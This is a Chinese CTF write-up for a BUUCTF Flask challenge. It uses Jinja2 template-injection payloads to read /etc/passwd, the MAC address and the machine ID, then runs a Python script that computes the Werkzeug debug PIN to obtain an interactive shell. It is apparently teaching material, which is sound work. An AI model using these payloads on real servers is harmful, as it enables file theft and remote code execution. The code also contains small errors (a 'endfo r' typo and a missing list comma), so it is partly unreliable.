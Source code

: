 ### 解密 PIN 码

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b3eb55d0e0a243d4005cff.png)

查看提示是 PIN 码

![](https://pic1.imgdb.cn/item/67b3f5ead0e0a243d400604d.png)

可以知道 PIN 主要由 `probably_public_bits` 和 `private_bits` 两个列表变量决定，而这两个列表变量又由如下 6 个变量决定：

- `username` 启动这个 Flask 的用户
- `modname` 一般默认 flask.app
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))` 一般默认 flask.app 为 Flask
- `getattr(mod, '__file__', None)`为 flask 目录下的一个 app.py 的绝对路径,可在爆错页面看到
- `str(uuid.getnode())` 则是网卡 MAC 地址的十进制表达式
- `get_machine_id()` 系统 id

从之前的报错中可以得到

- `modname`：`flask.app`
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))`：`Flask`
- `getattr(mod, '__file__', None)`：`/usr/local/lib/python3.7/site-packages/flask/app.py`

![](https://pic1.imgdb.cn/item/67b3f6ccd0e0a243d4006079.png)

构造 payload 读取 passwd 文件（看不懂参考上一节）

```jinja2
{% for x in {}.__class__.__base__.__subclasses__() %}
	{% if "warning" in x.__name__ %}
		{{x.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}
	{% endif %}
{% endfor %}
```

得到运行 Flask 的用户名：`flaskweb`

![](https://pic1.imgdb.cn/item/67b3f812d0e0a243d40060cb.png)

读 Mac 地址

```jinja2
{% for x in {}.__class__.__base__.__subclasses__() %}
	{% if "warning" in x.__name__ %}
		{{x.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address').read() }}
	{% endif %}
{% endfo r%}
```

![](https://pic1.imgdb.cn/item/67b3f9c6d0e0a243d4006180.png)

读系统 id

```jinja2
{% for x in {}.__class__.__base__.__subclasses__() %}
	{% if "warning" in x.__name__ %}
		{{x.__init__.__globals__['__builtins__'].open('/etc/machine-id').read() }}
	{% endif %}
{% endfor %}
```

![](https://pic1.imgdb.cn/item/67b3f9f9d0e0a243d4006189.png)

用脚本生成 PIN 码

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '231530469832647',# str(uuid.getnode()),  /sys/class/net/eth0/address
    '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

输入 PIN 码后可获取交互式 shell

![](https://pic1.imgdb.cn/item/67b3fa2dd0e0a243d4006197.png)